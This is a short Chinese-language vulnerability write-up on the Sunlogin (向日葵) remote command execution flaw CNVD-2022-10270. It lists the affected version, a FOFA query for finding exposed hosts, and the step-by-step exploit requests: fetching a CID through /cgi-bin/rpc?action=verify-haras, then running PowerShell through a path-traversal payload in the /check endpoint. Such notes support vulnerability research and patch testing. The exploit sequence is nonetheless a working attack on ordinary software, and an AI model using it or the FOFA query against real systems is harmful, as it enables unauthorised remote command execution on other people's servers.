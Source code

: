 # 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

```
11.0.0.33162
```

## FOFA

```
body="Verification failure"
```

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口

![image-20220524135408561](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241354598.png)

发送请求获取CID

```
/cgi-bin/rpc?action=verify-haras
```

![image-20220524135428094](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241354132.png)

使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241354108.png)